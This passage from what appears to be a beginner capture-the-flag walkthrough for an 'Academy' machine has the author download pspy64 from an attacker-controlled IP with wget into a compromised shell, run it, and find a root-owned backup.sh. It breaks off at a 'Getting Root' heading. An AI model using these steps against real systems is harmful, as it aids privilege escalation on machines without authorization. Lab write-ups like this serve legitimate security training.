 In the shell we have type this  to get the file

```
wget http://[your ip]/pspy64

```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/pspy64.png)

Make it executable and run it

```
chmod +x pspy64
./pspy64
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/pspy64work.png)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/cf3e34f84370b3d8784b64bc250d010a760648ca/Academy/images/backup.png)

Now we see that  `backup.sh` is running by the root user it's a good thing !
```
UID = 0  (Means root)
```
## Getting Root !
